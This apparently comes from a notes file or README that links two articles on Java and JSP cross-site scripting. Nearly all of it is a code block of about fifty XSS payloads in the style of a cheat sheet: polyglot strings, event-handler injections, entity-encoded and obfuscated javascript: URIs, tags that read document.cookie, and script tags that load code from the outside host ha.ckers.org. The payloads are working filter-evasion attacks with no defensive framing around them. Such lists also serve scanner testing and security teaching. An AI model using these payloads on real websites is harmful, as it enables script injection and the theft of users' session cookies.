 
https://www.stackhawk.com/blog/java-xss/
<br>
https://semgrep.dev/docs/cheat-sheets/java-jsp-xss/
<br>
<br>
/////////
/////////
/////////


```
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
'';!--"<XSS>=&{()}
0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"
<script/src=data:,alert()>
<marquee/onstart=alert()>
<video/poster/onerror=alert()>
<isindex/autofocus/onfocus=alert()>
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert("XSS")>
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
<a onmouseover="alert(document.cookie)">xxs link</a>
<a onmouseover=alert(document.cookie)>xxs link</a>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=# onmouseover="alert('xxs')">
<IMG SRC= onmouseover="alert('xxs')">
<IMG onmouseover="alert('xxs')">
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
<IMG SRC="jav	ascript:alert('XSS');">
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
<IMG SRC=" &#14;  javascript:alert('XSS');">
<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<<SCRIPT>alert("XSS");//<</SCRIPT>
<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >
<SCRIPT SRC=//ha.ckers.org/.j>
<IMG SRC="javascript:alert('XSS')"
<iframe src=http://ha.ckers.org/scriptlet.html <
\";alert('XSS');//
</script><script>alert('XSS');</script>
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<BODY BACKGROUND="javascript:alert('XSS')">
<IMG DYNSRC="javascript:alert('XSS')">
<IMG LOWSRC="javascript:alert('XSS')">
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
<IMG SRC='vbscript:msgbox("XSS")'>
```